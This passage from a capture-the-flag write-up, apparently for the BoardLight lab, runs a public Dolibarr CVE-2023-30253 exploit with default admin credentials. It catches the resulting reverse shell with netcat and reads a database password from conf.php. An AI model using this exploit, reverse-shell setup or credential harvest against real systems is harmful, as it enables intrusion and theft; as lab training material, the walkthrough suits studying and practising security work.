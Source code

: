 {{< image src="../../../boardlight-machine-img/google-exploit-dolibarr.png" alt="greenhorn.htb website" position="center" style="border-radius: 8px;" >}}

As seen in the image above we have a match!

### Using the CVE-2023-30253 exploit

In this repository is the exploit that will give us access to the machine, we simply have to clone it and using the credentials that we found for the admin we will obtain access to the machine.

[Exploit-Dolibarr](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253)

### Getting access

```sh
python3 exploit.py http://crm.board.htb admin admin 10.10.15.62 4444
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
```

```sh
nc-lvnp 4444
listening on [any] 4444 ...
connect to [10.10.15.62] from (UNKNOWN) [10.129.231.37] 38664
bash: cannot set terminal process group (880): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ whoami
whoami
www-data
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ 
```

Once inside the server, we will now be able to see all the configuration files that we listed with dirsearch that were previously prohibited (code 401)

The one that had caught my attention the most was the conf that we found listing, and after wandering through all the directories of the machine in the conf.php within the /conf directory we found something interesting.

```sh title=conf.php
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/ crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';

$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';
```
